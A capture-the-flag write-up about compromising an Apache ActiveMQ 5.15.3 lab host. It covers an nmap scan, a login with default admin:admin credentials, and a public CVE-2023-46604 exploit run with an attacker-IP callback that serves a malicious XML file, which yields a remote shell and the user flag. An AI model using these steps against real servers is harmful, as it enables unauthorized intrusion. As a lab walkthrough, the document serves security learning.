



# Prime Time (user)
<p align="center">
    
</p>

We are given the IP of a machine, and start with a nmap scan to identify which ports are open.
```console
$ nmap -T 5 -p- 10.128.2.125 -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-03 00:16 CET
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.4 (protocol 2.0)
1883/tcp  open  mqtt
5672/tcp  open  amqp?
8161/tcp  open  http       Jetty 9.2.22.v20170606
39959/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
61614/tcp open  http       Jetty 9.2.22.v20170606
61616/tcp open  apachemq   ActiveMQ OpenWire transport
```

Port 8161 leads to an `ActiveMQ` website, which has links to `/admin` and `/demo`. The demo-endpoint gives a 404, while the admin-endpoint prompts us for login credentials.
<p align="center">
    
</p>

The default credentials for ActiveMQ is `admin:admin`, and we can login as admin, however other than revealing that the ActiveMQ version is `5.15.3` this path does not lead to anything.
<p align="center">
    
</p>

This version of ActiveMQ has a deserialization vulnerability, [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/cve-2023-46604), which gives attackers remote code execution.
We can use [this POC](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell) to exploit the vulnerability and get shell on the server.

```console
$ python3 exploit.py -i 10.128.2.125 -si <attacker_ip>
#################################################################################
#  CVE-2023-46604 - Apache ActiveMQ - Remote Code Execution - Pseudo Shell      #
#  Exploit by Ducksec, Original POC by X1r0z, Python POC by evkl1d              #
#################################################################################

[*] Target: 10.128.2.125:61616
[*] Serving XML at: http://<attacker_ip>:8080/poc.xml
[!] This is a semi-interactive pseudo-shell, you cannot cd, but you can ls-lah / for example.
[*] Type 'exit' to quit

#################################################################################
# Not yet connected, send a command to test connection to host.                 #
# Prompt will change to Apache ActiveMQ$ once at least one response is received #
# Please note this is a one-off connection check, re-run the script if you      #
# want to re-check the connection.                                              #
#################################################################################

[Target not responding!]$ id
uid=998(prime) gid=995(prime) groups=995(prime),0(root) context=system_u:system_r:unconfined_service_t:s0
```

We get shell as the user `prime`, which can read the flag from `/home/activemq/user.txt`.
```console
Apache ActiveMQ$ cat /home/activemq/user.txt
EPT{d41d8cd98f00b204e9800998ecf8427e}
```
